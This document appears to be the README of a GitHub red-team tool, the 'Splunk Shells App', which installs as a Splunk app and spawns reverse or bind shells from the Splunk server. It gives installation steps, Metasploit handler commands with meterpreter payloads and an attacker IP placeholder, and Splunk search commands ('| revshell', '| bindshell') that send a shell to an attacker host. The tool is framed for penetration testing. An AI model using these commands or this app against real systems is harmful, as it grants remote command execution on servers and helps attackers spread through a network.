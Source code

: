 Splunk Shells App
Version 1.2

TBG Security
Ryan Hays
Cole Lucas

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to
interact with the server and expand influence within the environment.

I upgraded the original project to support python3 for newer splunk versions. It is mostly untested, except the rev_shell functionality.

# Install
Download the release from https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz

Navigate to the "Manage Apps" and click on "Install app from file"

![Alt text](appserver/static/splunk_apps.png?raw=true "Optional Title")

Click on "Choose File" and select the downloaded release archive.

![Alt text](appserver/static/splunk_install.png?raw=true "Optional Title")

Once it is installed you will have to restart Splunk

![Alt text](appserver/static/splunk_restart.png?raw=true "Optional Title")

For Splunk v6.5 ONLY
Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

![Alt text](appserver/static/splunk_permissions.png?raw=true "Optional Title")

# Usage
Using each of these shells can be done from the Search and Reporting app. Setup a handler first then execute one of the following searches:

## Setup Metasploit Handler

use multi/handler<br>

Pick one of the below

set payload python/meterpreter_reverse_tcp<br>
set payload python/meterpreter_bind_tcp<br>
set payload python/shell_reverse_tcp<br>
set payload python/shell_bind_tcp<br>

set LHOST <ATTACKER IP><br>
set LPORT <ATTCKER PORT><br>
exploit -j<br>

## Bind Shell

'| bindshell SHELLTYPE PORTNUMBER' 

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

PORTNUMBER - Specify the port you want the bind shell to listen on. If you do not specify a port number it defaults to 8888


## Reverse Shell

'| revshell SHELLTYPE ATTACKERIP ATTACKERPORT'

SHELLTYPE - Specify std or msf (std = Standard Shell|msf = Meterpreter Shell)

ATTACKERIP - Specify the IP that you want to shell to be sent back to. 

ATTACKERPORT - Specify the port you want the shell to be sent back to.
